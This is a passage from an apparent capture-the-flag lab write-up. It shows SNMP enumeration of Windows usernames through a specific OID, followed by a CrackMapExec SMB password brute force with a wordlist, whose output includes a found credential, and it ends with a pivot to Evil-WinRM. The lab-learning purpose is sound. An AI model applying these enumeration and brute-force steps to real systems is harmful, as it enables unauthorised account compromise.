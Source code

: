 - Again nothing useful and the google is my friend
- I found an article about information Disclosure using this OID `.1.3.6.1.4.1.77.1.2.25`
- You will find this article here [information-disclosure-caused-by-snmp](https://topic.alibabacloud.com/a/information-disclosure-caused-by-snmp-weak-password_8_8_31467358.html)


## MIB | Information Disclosure | Get SubTree .1.3.6.1.4.1.77.1.2.25

- Finally i found the user `Jareth`

![image]( /assets/img/owl/7.PNG)


## SMB Bruteforce

- Hydra failed to brute force so i run `crackmapexec`

```sh
┌──(alienum㉿kali)-[~]
└─$ crackmapexec smb 10.10.14.162 -u Jareth -p /usr/share/wordlists/rockyou.txt
SMB         10.10.14.162    445    YEAR-OF-THE-OWL  [*] Windows 10.0 Build 17763 (name:YEAR-OF-THE-OWL) (domain:year-of-the-owl) (signing:False) (SMBv1:False)
SMB         10.10.14.162    445    YEAR-OF-THE-OWL  [-] year-of-the-owl\Jareth:cookie STATUS_LOGON_FAILURE
...
SMB         10.10.14.162    445    YEAR-OF-THE-OWL  [-] year-of-the-owl\Jareth:123654 STATUS_LOGON_FAILURE
SMB         10.10.14.162    445    YEAR-OF-THE-OWL  [+] year-of-the-owl\Jareth:s****
```

## Evil-winrm

![image]( /assets/img/owl/8.PNG)
